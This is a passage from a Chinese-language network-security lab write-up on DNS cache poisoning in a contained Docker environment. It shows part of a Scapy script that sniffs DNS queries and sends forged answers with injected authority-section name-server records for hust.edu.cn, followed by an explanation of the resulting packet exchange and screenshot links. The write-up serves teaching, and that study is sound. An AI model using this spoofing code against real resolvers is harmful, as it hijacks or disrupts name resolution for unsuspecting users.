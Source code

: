 ```python
        	ttl=11803, rdata='ns2.hust.edu.cn')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, 
        	rd=0, qr=1, qdcount=1, ancount=1, nscount=2, 
            arcount=0, an=Anssec, ns=NSsec1/NSsec2)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
    elif ('ns1.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='172.18.0.1')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=0, rd=0, 
        	qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
    elif ('ns2.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='200.10.3.27')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=0, rd=0, 
        	qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = 'udp and dst port 53 and src host 172.18.0.3'
pkt = sniff(iface='br-e4a075733e38', filter=f, prn=spoof_dns)
```

- 使用该程序进行攻击，用户机进行`dig www.hust.edu.cn`操作时，攻击机返回`www.hust.edu.cn`对应的`IP`为`172.18.0.1`，并在授权部分说明两个权威域名服务器`ns1.hust.edu.cn`和`ns2.hust.edu.cn`，由于附加部分不生效，因此将附加部分删除；当用户机进行`dig mail.hust.edu.cn`时，`DNS`服务器将会询问两个权威域名服务器对应的`IP`，此时攻击机再次进行欺骗，服务器接收到错误的响应后便会向两个错误的域名服务器发送`mail.hust.edu.cn`的`DNS`询问。由于`ns1.hust.edu.cn`对应的`IP:172.18.0.1`此时没有相关信息且`ns2.hust.edu.cn`对应的`IP:200.10.3.27`为不存在的`IP`，因此查询将失败。
- 攻击过程见`1.5.2-针对授权区域部分(未开启伪造域名服务器).pcapng`，第一次欺骗如下：

![1.5.3.第一次欺骗](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012017287.png)

- 后续欺骗如下，数据包`40`为`DNS`服务器查询`ns1.hust.edu.cn`的`IP`，数据包`45`为伪造的该询问的响应，告诉服务器对应的`IP`为`172.18.0.1`，服务器得到该信息后便继续向`172.18.0.1`查询`mail.hust.edu.cn`的`IP`，即数据包`46`；数据包`42、48、49`同理，是对`ns2.hust.edu.cn`的询问：

![1.5.4.第二次欺骗](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012018247.png)
